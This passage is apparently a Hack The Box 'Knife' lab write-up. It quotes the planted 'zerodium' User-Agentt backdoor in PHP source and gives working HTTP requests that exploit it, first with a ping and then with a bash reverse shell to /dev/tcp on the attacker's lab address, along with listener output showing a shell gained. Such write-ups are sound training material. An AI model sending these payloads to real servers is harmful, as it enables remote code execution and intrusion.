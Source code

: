 ```php
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
...
```

It is possible to verify the backdoor by trying to ping back our machine using `User-Agentt: zerodium system('ping -c1 10.10.14.17');`:
```http
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('ping -c1 10.10.14.17');
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

and thus obtaining a ping back:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:01:03.012545 IP knife.htb > 10.10.14.17: ICMP echo request, id 1, seq 1, length 64
18:01:03.012577 IP 10.10.14.17 > knife.htb: ICMP echo reply, id 1, seq 1, length 64
```

At this point it is possible to execute a classic reverse shell payload and obtain a low level access to the machine:
```http
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/10099 0>&1'");
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.242] 60114
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ hostname && ifconfig
hostname && ifconfig
knife
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
```